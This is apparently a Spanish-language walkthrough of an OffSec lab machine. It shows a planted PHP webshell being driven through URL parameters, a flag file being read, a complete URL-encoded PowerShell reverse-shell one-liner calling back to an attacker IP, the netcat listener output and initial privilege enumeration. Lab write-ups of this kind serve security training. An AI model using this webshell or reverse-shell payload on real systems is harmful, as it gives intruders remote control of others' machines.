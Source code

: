 ```
adrian 
damon 
DefaultAccount 
Guest 
WDAGUtilityAccount 
The command completed successfully.
---
http://192.168.161.249:8000/cms/media/webshell.pHp?cmd=dir%20C:\Users\adrian\Desktop

Volume in drive C has no label. Volume Serial Number is 12DF-ECB8 Directory of C:\Users\adrian\Desktop 06/04/2025 02:01 PM
. 10/20/2022 01:45 AM
.. 06/04/2025 02:01 PM 34 local.txt 1 File(s) 34 bytes 2 Dir(s) 10,563,198,976 bytes free 
```
- Podemos obtener el primer flag: **local.txt**

```
http://192.168.161.249:8000/cms/media/webshell.pHp?cmd=type%20C:\Users\adrian\Desktop\local.txt
```
- Necesitamos un reverse shell en Lecgacy para trabajar con mas comodidad

Podemos ejecutar en una sola linea a traves del mismo shell que subimos y luego subir un backdoor de metasploit para obtener un shell mas robusto y estable.
```
powershell%20-nop%20-c%20%22$client%20%3D%20New-Object%20System.Net.Sockets.TCPClient('192.168.45.239'%2C4444)%3B$stream%20%3D%20$client.GetStream()%3B[byte[]]$bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile(($i%20%3D%20$stream.Read($bytes%2C%200%2C%20$bytes.Length))%20-ne%200)%7B%3B$data%20%3D%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes%2C0%2C%20$i)%3B$sendback%20%3D%20(iex%20$data%202%3E%261%20%7C%20Out-String)%20%3B$sendback2%20%3D%20$sendback%20%2B%20'PS%20'%20%2B%20(pwd).Path%20%2B%20'%3E%20'%3B$sendbyte%20%3D%20([text.encoding]::ASCII).GetBytes($sendback2)%3B$stream.Write($sendbyte%2C0%2C$sendbyte.Length)%3B$stream.Flush()%7D%22
```
- En nuestro receptor nc:

```powershell
┌──(root㉿kali)-[/home/kali/OffSec/Challenges/2_Relia]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.180.249] 62914
whoami
legacy\adrian
PS C:\xampp\htdocs\cms\media>
```

- Enumeracion rapida antes de obtener un mejor shell:

```
PS C:\Users\adrian\Desktop> whoami /all
                                                                                                                                                                                                                  
USER INFORMATION                                                                                                                                                                                                  
----------------                                                                                                                                                                                                  
                                                                                                                                                                                                                  
User Name     SID                                                                                                                                                                                                 
============= ============================================                                                                                                                                                        
legacy\adrian S-1-5-21-464543310-226837244-3834982083-1004


GROUP INFORMATION
-----------------
```